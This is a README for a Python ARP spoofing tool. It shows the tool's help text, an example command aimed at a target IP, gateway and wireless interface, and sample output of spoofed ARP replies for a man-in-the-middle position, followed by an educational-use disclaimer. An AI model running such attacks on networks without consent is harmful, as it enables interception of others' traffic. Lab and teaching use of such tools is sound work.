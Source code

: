 # ARP Spoofer
Python 3.9+ is required, tested on Kali Linux.

## Example Usage
```shell
python3 arpspoof.py -h
    _    ____  ____    ____                     __           
   / \  |  _ \|  _ \  / ___| _ __   ___   ___  / _| ___ _ __ 
  / _ \ | |_) | |_) | \___ \| '_ \ / _ \ / _ \| |_ / _ \ '__|
 / ___ \|  _ <|  __/   ___) | |_) | (_) | (_) |  _|  __/ |   
/_/   \_\_| \_\_|     |____/| .__/ \___/ \___/|_|  \___|_|   
                            |_|                              

usage: arpspoof.py [-h] target gateway interface

positional arguments:
  target      Please specify Target IP address
  gateway     Please specify default Gateway IP address
  interface   Please specify the Interface

optional arguments:
  -h, --help  show this help message and exit
```

```shell
python3 arpspoof.py 192.168.0.17 192.168.0.1 wlan0
```

Output
```
    _    ____  ____    ____                     __           
   / \  |  _ \|  _ \  / ___| _ __   ___   ___  / _| ___ _ __ 
  / _ \ | |_) | |_) | \___ \| '_ \ / _ \ / _ \| |_ / _ \ '__|
 / ___ \|  _ <|  __/   ___) | |_) | (_) | (_) |  _|  __/ |   
/_/   \_\_| \_\_|     |____/| .__/ \___/ \___/|_|  \___|_|   
                            |_|                              

[*] Enabling IP forwarding.
[+] Gateway 192.168.0.1 is at ac:22:05:4f:f9:1f
[+] Target 192.168.0.17 is at a4:71:74:43:f9:0f
[*] Prepare to send to 192.168.0.17: 192.168.0.1 is at 34:f6:4b:06:0c:f7
[*] Prepare to send to 192.168.0.1: 192.168.0.17 is at 34:f6:4b:06:0c:f7
[+] Beginning ARP Spoofing. [CTRL+C to stop]
```

## Disclaimer
All information and software available in this probject are for educational purposes only. Use these at your own discretion, the author cannot be held responsible for any damages caused. Usage of these tools for attacking targets without prior mutual consent is illegal.